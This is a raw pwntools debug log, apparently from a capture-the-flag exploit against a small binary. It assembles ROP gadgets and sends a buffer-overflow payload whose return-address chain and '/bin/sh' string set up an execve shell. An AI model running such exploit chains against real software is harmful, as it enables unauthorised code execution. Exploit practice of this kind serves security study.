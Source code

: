 ```c
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-36f9aekz/step2 /tmp/pwn-asm-36f9aekz/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-36f9aekz/step3 /tmp/pwn-asm-36f9aekz/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/home/toma/.local/lib/python3.9/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    .p2align 2
    _start:
    __start:
    .intel_syntax noprefix
    pop rsi; pop r15; ret
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-o_uvgw_y/step2 /tmp/pwn-asm-o_uvgw_y/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-o_uvgw_y/step3 /tmp/pwn-asm-o_uvgw_y/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/home/toma/.local/lib/python3.9/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    .p2align 2
    _start:
    __start:
    .intel_syntax noprefix
    pop rdx; ret
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-07yebzz8/step2 /tmp/pwn-asm-07yebzz8/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-07yebzz8/step3 /tmp/pwn-asm-07yebzz8/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/home/toma/.local/lib/python3.9/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    .p2align 2
    _start:
    __start:
    .intel_syntax noprefix
    syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-klqpaive/step2 /tmp/pwn-asm-klqpaive/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-klqpaive/step3 /tmp/pwn-asm-klqpaive/step4
[DEBUG] Sent 0x148 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    000000d0  41 41 41 41  41 41 41 41  08 10 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000e0  00 40 40 00  00 00 00 00  23 10 40 00  00 00 00 00  │·@@·│····│#·@·│····│
    000000f0  3b 00 00 00  00 00 00 00  3b 00 00 00  00 00 00 00  │;···│····│;···│····│
    00000100  2a 10 40 00  00 00 00 00  08 10 40 00  00 00 00 00  │*·@·│····│··@·│····│
    00000110  00 40 40 00  00 00 00 00  23 10 40 00  00 00 00 00  │·@@·│····│#·@·│····│
    00000120  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000130  15 10 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000140  48 10 40 00  00 00 00 00                            │H·@·│····│
    00000148
[DEBUG] Sent 0x3b bytes:
    00000000  2f 62 69 6e  2f 73 68 00  00 00 00 00  00 00 00 00  │/bin│/sh·│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000030  00 00 00 00  00 00 00 00  00 00 00                  │····│····│···│
    0000003b
```